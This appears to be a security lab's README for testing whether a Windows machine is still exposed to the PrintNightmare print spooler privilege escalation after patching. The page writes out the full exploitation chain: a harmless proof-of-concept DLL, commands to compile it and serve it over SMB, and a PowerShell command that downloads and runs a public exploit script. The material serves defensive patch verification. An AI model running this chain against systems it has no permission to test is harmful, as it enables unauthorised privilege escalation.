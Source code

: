 # PrintNightmare: CVE-2021-1675 / CVE 2021 34527

## Test if you are still vulnerable to PrintNightmare's privesc after patching

## Pre-check
```powershell
get-service spooler
```
![image](https://user-images.githubusercontent.com/49488209/124728554-9a371b80-df07-11eb-8e91-8d30eea92e73.png)

#### If spooler isn't running, won't be vulnerable, you can quit here and now.
#### Otherwise if running, begin exploitation.

## prepare non-malicious DLL

#### install dependencies
sudo apt apt install gcc-mingw-w64
sudo apt-get install g++-mingw-w64-x86-64

### write the dll
nano nightmare.cpp

```cpp
#include <windows.h>

int printy()
{
  WinExec("cmd.exe /c echo > C:\\printnightmare.txt",0);
   return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  printy();
  return 0;
}
```

#### compile dll
```bash
sudo x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL nightmare.cpp         
sudo x86_64-w64-mingw32-g++ -shared -o nightmare.dll nightmare.o -Wl,--out-implib,nightmare.a
```
![image](https://user-images.githubusercontent.com/49488209/124728640-a9b66480-df07-11eb-9c9d-42e2cea1b6c7.png)



## Transfer DLL however you like, impacket's smbserver.py works
### in kali
```bash
sudo impacket-smbserver kali . -smb2support
```
![2021-07-07_09-43](https://user-images.githubusercontent.com/49488209/124728745-bdfa6180-df07-11eb-876b-1155026cb191.png)


### copy in Windows
```cmd
:: I copied mine into C:\
copy \\yourip\\kali\\nightmare.dll
```
![image](https://user-images.githubusercontent.com/49488209/124728825-cf436e00-df07-11eb-9ff5-d56bc338720a.png)


## Exploit
### Pull Powershell exploit, written by John Hammond and Caleb from Huntress
invoke-webrequest -uri "https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1" -UseBasicParsing -outfile CVE-2021-1675.ps1

#### deploy
import-module .\CVE-2021-1675.ps1
Invoke-Nightmare -DLL "C:\nightmare.dll"

![image](https://user-images.githubusercontent.com/49488209/124728899-e2563e00-df07-11eb-9b30-96d8509caad8.png)


### check C:\ for PrintNightmare.txt
![image](https://user-images.githubusercontent.com/49488209/124728938-eb470f80-df07-11eb-9acb-03bfe59a14ec.png)

### It doesn't matter what it's contents is, it just maters that it exists. 

### For any questions, comments, and criticisms, please find us on [Twitter](https://twitter.com/jumpseclabs?lang=en)





Main Twitter [Twitter](https://twitter.com/jumpsec)
